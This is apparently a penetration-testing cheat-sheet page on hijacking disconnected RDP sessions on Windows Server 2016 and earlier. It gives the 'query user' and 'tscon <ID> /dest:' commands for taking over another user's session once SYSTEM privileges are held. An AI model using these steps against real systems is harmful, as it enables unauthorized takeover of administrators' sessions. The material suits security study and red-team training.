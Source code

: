# RDP hijacking

## Resources

1. `tscon`

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon" %}

## Hijack RDP session

When an administrator uses Remote Desktop to connect to machine and closes the Remote Desktop Protocol (RDP) client instead of logging off, the session associated with the connection will remain open on the server indefinitely.&#x20;

If we have SYSTEM privileges on Windows Server 2016 and earlier, it is possible to take over any existing RDP session without requiring a password.

> Note: Windows Server 2019 won't allow you to connect to another user's session without the password

First, we have to retrieve a command prompt session as the SYSTEM user. Next, we can list the existing sessions on a server:

```powershell
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 <username>                               3  Disc            .  xxxx
 ...
```

Notice the value of `Disc` under the **STATE** field, which means that the connection has been left open by the user and isn't being used at the moment. We can hijack the session:

{% code overflow="wrap" %}
```powershell
C:\> tscon <ID> /dest:<current_session>
```
{% endcode %}

* `<ID>`: Specifies the ID of the session to which you want to connect
* `/dest` : Specifies the name of the current session.

